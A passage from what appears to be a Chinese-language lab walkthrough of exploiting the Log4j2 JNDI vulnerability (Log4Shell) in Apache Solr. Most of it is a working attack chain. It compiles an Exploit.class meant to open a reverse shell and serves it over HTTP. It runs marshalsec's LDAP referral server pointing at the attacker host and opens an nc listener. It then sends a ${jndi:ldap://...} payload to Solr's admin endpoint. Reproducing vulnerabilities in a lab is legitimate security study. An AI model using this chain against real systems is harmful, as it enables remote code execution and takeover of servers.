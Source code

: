 静态代码块用于类的初始化，在类第一次被加载到JVM时执行一次，不依赖于类的实例化。构造函数会在每次创建类的实例时执行调用。

编译得到Exploit.class文件：

（注意要用JDK1.8编译`Exploit.class`，用JDK17编译会导致无法反弹shell）

```bash
wget https://repo.huaweicloud.com/java/jdk/8u171-b11/jdk-8u171-linux-x64.tar.gz
tar -xzvf jdk-8u171-linux-x64.tar.gz
mv jdk1.8.0_171 /usr/lib/jvm/
update-alternatives --install /usr/bin/java java /usr/lib/jvm/jdk1.8.0_171/bin/java 8
update-alternatives --install /usr/bin/javac javac /usr/lib/jvm/jdk1.8.0_171/bin/javac 8
update-alternatives --config java
update-alternatives --config javac
# 切换java和javac版本
javac -version
# javac 1.8.0_171

javac Exploit.java
```

在`Exploit.class`所在目录建立http服务器：

```bash
python -m http.server 9000
```

搭建LDAP服务器：

```bash
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.56.102:9000/Exploit"
```

打开监听：

```bash
nc -lvvp 8888
```

浏览器访问：`http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://192.168.56.102:1389/Exploit}`

![](/img/2024-08-25-log4j2-rce/8.png)

![](/img/2024-08-25-log4j2-rce/9.png)
